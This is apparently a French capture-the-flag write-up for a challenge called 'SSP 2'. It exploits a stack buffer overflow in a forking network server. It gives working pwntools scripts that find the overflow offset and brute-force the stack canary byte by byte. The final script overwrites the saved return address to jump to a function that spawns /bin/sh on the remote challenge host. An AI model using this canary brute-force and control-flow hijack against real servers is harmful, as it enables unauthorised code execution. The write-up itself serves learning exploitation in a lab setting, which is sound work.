










# SSP 2

Maintenant que l'on arrive à communiquer avec le serveur, on va chercher des vulnérabilités.

La seule entrée utilisateur est dans la fonction `recv_and_decrypt`.



La fonction `recv` récupère de la donnée du client et la stocke dans la variable `buf` qui est stockée en stack.
La taille de cette variable est fixe (4104 octets) et on peut envoyer maximum 0x1000 octets donc pas d'overflow.

Le contenu de `buf` est ensuite déchiffré et le résultat est stocké dans `a3` qui est un buffer donné en paramètre.

Seule `handle_client` appelle cette fonction.



Le buffer donné en paramètre est `s` qui est stocké en stack et de taille fixe (264) caractères. On a donc un buffer overflow dans la stack à cet endroit.

Pour le confirmer, je lance le server dans gdb et j'essaie de faire un overflow

```python
io = remote('192.168.1.11', 1337)

cipher = None

init_connexion()
recv_and_decrypt()


encrypt_and_send(b'A' * 0x300)

io.interactive()
```



J'ai la chaine `stack smashing detected` qui m'indique qu'il y a effectivement eu un stack overflow puisque j'ai écrasé le canary.

Pour pouvoir exploiter cet overflow et réécrire `saved_rip`, je vais devoir remettre en place le canary et donc récupérer sa valeur.

Je n'ai pas trouvé de vulnérabilité me permettant de faire fuiter de l'information mais je peux exploiter le comportement du serveur.  
Dans la fonction `main`, lorsque je me connecte au serveur, il appelle la fonction `fork`.



Cette fonction permet de dupliquer le processus, l'un va entrer dans la fonction `handle_client` et c'est avec lui que je vais discuter et l'autre fait un tour de boucle et attend un nouveau client. Donc à chaque connexion nous interagissons avec un fork du serveur de base.

Ce comportement est très souvent retrouvé dans le code d'un serveur car il permet de traiter plusieurs clients en même temps.  
L'un des effets de bord de cette architecture est que le processus n'est jamais arrêté ou redémarré, donc son ASLR et la valeur de son canary ne change pas.  
Il est donc possible de faire du brute-force sur le canary.

Le canary est une valeur sur 64 bits donc un brute-force classique ne marcherai pas, cependant il est possible de faire un brute-force "intelligent" qui va attaquer octet par octet.

Dans un premier temps, cherchons l'offset à partir duquel on écrase le canary. Pour cela be met un break point dans gdb au moment de la comparaison du canary (adresse 0x401DDF) et j'envoie une chaine reconnaissable.

```python
init_connexion()
recv_and_decrypt()

encrypt_and_send(cyclic(0x300, n=8) )

io.interactive()
```



Le canary a été remplacé par `0x6261616161616169`, ce qui correspond à 'iaaaaaab' qui est l'offset 264



Donc à partir du 265e octet je commence à écraser le canary.  
Comme sa valeur ne bouge pas entre deux connexions, je peux tester les 256 possibilités pour ce 265e octet. Normalement il y a une valeur qui correspond au premier octet de mon canary et pour laquel le programme ne devrait pas crash.

Dans un cas normal, le serveur envoie `Closing connection` avant de terminer la connexion donc si on reçois cette chaine, cela veut dire que le programme n'a pas crash.

```python
for x in range(0x100):
    io = remote('192.168.1.11', 1337, level='error')
    init_connexion()
    recv_and_decrypt()

    p = b'A' * 264
    p += p8(x)

    encrypt_and_send(p)

    data = io.recvall(timeout=1)

    if b'Closing connection' in data:
        print(f"Found: canary = {x}")
        break

```



On trouve 0 ce qui est normal car le canary dans Linux commence toujours par 0 (il est donc codé en réalité sur 56 ce qui reste pas brute-forceable)

On peut tester ce qu'il trouve comme 2e octet

```python
for x in range(0x100):
    io = remote('192.168.1.11', 1337, level='error')
    init_connexion()
    recv_and_decrypt()

    p = b'A' * 264
    p += b'\x00' # Linux canary always start by 0
    p += p8(x)

    encrypt_and_send(p)

    data = io.recvall(timeout=1)

    if b'Closing connection' in data:
        print(f"Found: canary = {x}")
        break

```



On a bien trouvé quelque chose et relancer ce programme une seconde fois devrait trouver le même résultat.  
Il n'y a plus qu'à faire de même sur tout le canary

```python
canary = b'\x00'

canary_log = log.progress(f"BF")
while len(canary) != 8:
    for x in range(0x100):
        canary_log.status(f" {canary = } {x:#x}")

        io = remote('192.168.1.11', 1337, level='error')
        init_connexion()
        recv_and_decrypt()

        p = b'A' * 264
        p += canary
        p += p8(x)

        encrypt_and_send(p)

        data = io.recvall(timeout=1)

        if b'Closing connection' in data:
            canary += p8(x)
            break
        io.close()

canary_log.success(f"{canary = }")
```


Maintenant que l'on a trouvé le canary, on peut écraser `saved_rip` et controller le flux d'execution du programme.

Si l'on regarde toutes les fonctions du programme, on tombe sur celle ci qui est un peu bizarre



Elle fait un syscall 59 (execve) avec '/bin/sh' en paramètre donc aller dans cette fonction devrait être suffisant pour récupérer un shell.

Il faut encore connaitre l'offset entre le canary et `saved_rip` mais en plaçant plein de fois l'adresse de cette fonction en mémoire on devrait finir par tomber dessus 

```python
io = remote('ssp.serviel.fr', 1234, ssl=True, level='error')
init_connexion()
recv_and_decrypt()

p = b'A' * 264
p += canary
p += p64(0x4014FB)*10

encrypt_and_send(p)
```

